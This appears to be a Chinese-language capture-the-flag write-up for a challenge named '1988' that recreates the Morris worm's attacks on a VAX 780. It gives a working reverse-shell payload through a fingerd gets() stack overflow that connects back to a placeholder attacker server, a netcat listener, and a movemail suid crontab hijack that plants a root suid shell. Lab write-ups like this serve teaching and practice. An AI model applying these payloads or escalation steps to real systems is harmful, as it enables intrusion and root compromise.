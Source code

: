 # 1988

*Welcome to 1988, please read README.md carefully*

用上了vax780的远古老题，并给出了详细的wp，以下是我粗略的解释

## 解题思路

首先利用`fingerd`的`gets`打栈溢出，执行任意shellcode，作者写的是反弹shell

> 没有服务器，frp还配不好，紧急借了台服务器

然后`movemail`设有suid位，通过修改定时任务达到rce的目的，创建一个有suid位的`sh`，
接着`cat /flag`即可

## EXPLOIT

**Command on remote server** :
```sh
nc -lvvp 4444
```

**Command on local machine** :
```sh
perl -e 'print "\x01"x303 . "\xdd\x00\xdd\x01\xdd\x02\xdd\x03\xd0\x5e\x5c\xbc\x8f\x61\x00\xd0\x50\x5a\xdd\x00\xdd\x00\xdd\x8f{YOUR REMOTE SERVER IP}\xdd\x8f\x02\x00\x11\x5c\xd0\x5e\x5b\xdd\x10\xdd\x5b\xdd\x5a\xdd\x03\xd0\x5e\x5c\xbc\x8f\x62\x00\xd0\x00\x5b\xdd\x5b\xdd\x5a\xdd\x02\xd0\x5e\x5c\xbc\x8f\x5a\x00\xf3\x02\x5b\xef\xdd\x8f\x2f\x73\x68\x00\xdd\x8f\x2f\x62\x69\x6e\xd0\x5e\x5b\xdd\x00\xdd\x00\xdd\x5b\xdd\x03\xd0\x5e\x5c\xbc\x3b" . "A"x109 . "\x00"x16 . "\x38\xea\xff\x7f"' | ncat -v $TARGET_IP 79
```
注意用自己服务器的ip替换`{YOUR REMOTE SERVER IP}`字段，保持字节的表达形式

**Commands on remote server** :
```sh
(umask 0 && /etc/movemail /dev/null /usr/lib/crontab.local)
ls -l /usr/lib/crontab.local
(echo "* * * * * root cp /bin/sh /tmp && chmod u+s /tmp/sh"; echo  "* * * * * root rm -f /usr/lib/crontab.local") > /usr/lib/crontab.local
cat /usr/lib/crontab.local
```
稍等一会儿等待定时任务执行
```sh
ls -l /tmp/sh
/tmp/sh
cat /flag
```

成功拿到flag

## 后记

docker起不了，本地的环境久久无法正常工作，于是我决定直接打远程，所幸数据和原文都对的上，
作者给的脚本不需要多少修改就可以直接打通

同时这道题是对pwn一词的诠释，让我第一次见到了二进制利用在现实中的应用

## 参考文献

[解题所需的blog](https://www.rapid7.com/blog/post/2019/01/02/the-ghost-of-exploits-past-a-deep-dive-into-the-morris-worm/)
